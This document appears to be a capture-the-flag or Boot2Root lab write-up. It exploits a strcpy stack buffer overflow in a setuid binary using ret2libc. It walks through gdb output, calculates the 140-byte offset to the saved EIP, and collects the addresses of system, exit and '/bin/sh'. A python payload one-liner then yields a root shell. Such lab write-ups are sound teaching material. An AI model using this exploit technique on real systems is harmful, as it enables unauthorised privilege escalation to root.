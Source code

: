 <pre><code>0x08048400 <+12>:	cmpl   $0x1,0x8(%ebp)</code></pre>
> The comparison tells us that the program expects only 1 argument.
```
0x08048420 <+44>:	call   0x8048300 <strcpy@plt>
```
> **strcpy** copies and stores our first argument in the stack without checking if the size of the argument matches the size of the destination buffer.

The function can be used by <code>buffer_overflow</code> to corrupt the saved values of **%ebp** and **%eip**.
```
(gdb) r AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Starting program: /home/zaz/exploit_me AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Breakpoint 1, 0x08048425 in main ()
(gdb) i f
Stack level 0, frame at 0xbffff720:
 eip = 0x8048425 in main; saved eip 0xb7e454d3
 Arglist at 0xbffff718, args:
 Locals at 0xbffff718, Previous frame's sp is 0xbffff720
 Saved registers:
  ebp at 0xbffff718, eip at 0xbffff71c
(gdb) x/30x $esp
0xbffff680:     0xbffff690      0xbffff8f4      0x00000000      0x00000000
0xbffff690:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff6a0:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff6b0:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff6c0:     0x41414141      0x00004141      0xbffff71c      0xb7fd0ff4
0xbffff6d0:     0x08048440      0x080496e8      0x00000002      0x080482dd
0xbffff6e0:     0xb7fd13e4      0x00080000      0x080496e8      0x08048461
0xbffff6f0:     0xffffffff      0xb7e5edc6
```
Hex value:
bffff71c - bffff690 = 8C
>bffff71c : eip saved | bffff690 : buffer beggining

Decimal value:
3221223196 - 3221223056 = 140
>Offset : 140 characters

From 141 to 144 characters are written on the saved address of **%eip**.

To exploit it we will make a <code>ret_to_libc</code> : the goal is to recover the address of the **system** and **exit** function.
```
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7e6b060 <system>
(gdb) p exit
$2 = {<text variable, no debug info>} 0xb7e5ebe0 <exit>
(gdb) find &system,+9999999,"/bin/sh"
0xb7f8cc58
```
> We have here the addresses of **system**, **exit** and the environment variable **/bin/sh**.

```
./exploit_me `python -c "print '\x90'*140 + '\x60\xb0\xe6\xb7' + '\xe0\xeb\xe5\xb7' + '\x58\xcc\xf8\xb7'"`
```
> We rewrite the address of **system** to the saved address of **%eip**, then the address of **exit** to make the program exit normally at the shell exit and finally the address of **/bin/sh** to launch a terminal.

We get a terminal with **root** rights :
```
> id
uid=1005(zaz) gid=1005(zaz) euid=0(root) groups=0(root),1005(zaz)
```
